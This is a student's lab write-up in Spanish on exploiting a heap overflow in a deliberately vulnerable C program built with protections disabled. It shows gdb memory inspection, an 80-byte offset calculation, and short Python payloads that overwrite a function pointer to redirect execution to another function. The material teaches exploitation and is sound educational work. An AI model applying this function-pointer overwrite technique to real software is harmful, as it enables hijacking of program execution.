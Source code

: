 # Heap Overflow

Alberto Miguel Diez - amigud00@estudiantes.unileon.es

## 1. Compilación del programa

Para compilar el programa se debe utiliar el siguiente comando:

```bash
gcc heapexample.c -w -g -no-pie -z execstack -o heapexample
```

En la siguiente imagen se puede comprobar la ejecución del programa con algunos argumentos. Se puede ver que la segunda ejecución da _Segmentation fault (core dumped)_ pues se pasan 101 caracteres cuando el buffer solo puede almacenar 64. Esto significa que no se controla la entrada en el código.

![Alt text](img/compilacion_ejecucion.png)

## 2. Examinar el funcionamiento del código

El objetivo en este paso es comprobar como está el mapa de memoria del programa. Para ello se ejecuta el comando _info proc map_ en gdb. Como input al programa se pasa la cadena `XXXX` que en hexadecimal es `0x58585858`.

```bash
gdb ./heapexample
(gdb) list 25,40
(gdb) b 38
(gdb) run XXXX
(gdb) info proc map
```

En la siguiente imagen se puede observar el mapa de memoria de la aplicación. En mi caso, la pila va de la posición `0x405000` a la `0x426000`.

![Alt text](img/info_proc_map.png)

A continuación, consulto la dirección de memoria `0x405000` para comprobar dónde se guarda la información de las estructuras para las que reserva memoria el programa.

```bash
(gdb) x/240x 0x405000
```

![Alt text](img/heap_state.png)

En la imagen anterior se observa que en la posición `0x4052a0` se encuentra en hexadecimal el _input_ `XXXX`.

Posteriormente, realizo el desensamblado de la función `f_espero_fuera` utilizando la herramienta gdb y con el siguiente comando:

```bash
(gdb) disassemble f_espero_fuera
```

Se puede comprobar que la funciónn comienza en la posición de memoria `0x4011ad`. Esto implica que en el mapa de la pila se debe observar esta posición de memoria pues a la que apunta `f->fp` (se encuentra en la posición `0x4052f0` del _heap_).

![Alt text](img/disassemble.png)

## 3. Creación de un script

Utilizando Python se va a crear un script que ayude a generar una entrada para generar un _heap overflow_.

```python
#!/usr/bin/python

print 'X' * 90
```

Este script da error al ejecutarlo pues se completa el buffer de entrada.

## 4. Modificación del registro rip

Se va a modificar el registro rip, este almacena la dirección de memoria de la próxima instrucción que se debe ejecutar en un programa. Para ello voy a insertar en la posición de memoria `0x4052f0` (donde se encuentra el puntero a la función) el valor `0x46454443`.

Primero calculo la distancia entre la posición de memoria `0x4052a0` donde se empieza a almacenar el buffer de entrada y la `0x4052f0`. Por lo tanto, `0x4052f0` - `0x4052a0` = `0x50`. Este valor en decimal es `80`, es decir, hay 80 bytes de distancia entre ambas posiciones de memoria. Por lo tanto, hay que completar con 80 bytes y posteriormente insertar el valor `0x46454443` (CDEF en código ASCII).

```python
#!/usr/bin/python

print 'X' * 80 + 'CDEF'
```

En la siguiente imagen se puede comprobar que se modificado correctamente el registro rip.

![Alt text](img/rip_modificado.png)

## 5. Obtener dirección de memoria f_entrar

La función que queremos ejecutar se encuentra en la posición de memoria `0x00401196`.

![Alt text](img/disassemble_f_entrar.png)

## 6. Shellcode

El scrip desarrollado es el siguiente:

```python
#!/usr/bin/python

print 'X' * 80 + '\x96\x11\x40\x00'
```

**Importante: Tener en cuenta el Endian**

En la siguiente imagen se puede comprobar que se ha realizado el shellcode correctamente.

![Alt text](img/done.png)

